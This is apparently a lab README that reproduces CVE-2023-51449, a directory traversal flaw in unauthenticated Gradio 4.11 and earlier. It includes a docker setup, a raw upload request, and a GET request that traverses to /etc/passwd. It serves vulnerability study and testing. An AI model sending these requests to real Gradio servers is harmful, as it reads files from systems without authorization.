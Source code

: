 # Gradio `file` Directory Traversal Vulnerability (CVE-2023-51449)

[中文版本(Chinese version)](README.zh-cn.md)

Gradio is a Python library for creating interactive interfaces for machine learning models. With Gradio, you can quickly build a visual, easy-to-use web interface for your model without writing any front-end code.

Gradio 4.11 and below, when authentication is not enabled, you can use a public URL to access any file on the machine running the Gradio application if you know the file path to find (for example, if the demo was created with `share=True` or on Hugging Face Spaces).

Reference Links:

+ https://github.com/gradio-app/gradio/pull/6833

+ https://github.com/gradio-app/gradio/tree/gradio%404.10.0

## Environment startup

Execute the following command to start the Gradio environment:

```
docker compose up -d
```

After successful startup, there is no authentication by default.

```
http://your-ip:7860
```

## Vulnerability Reproduction

To upload a piece of content using the upload interface, you need to obtain an accessible file path.

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--

```

![image-20250424134122049](1.png)
After getting an accessible file path, use the file interface to access it and use directory traversal to read the file, and it can be read successfully.

```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
```

![image-20250424134351720](2.png)
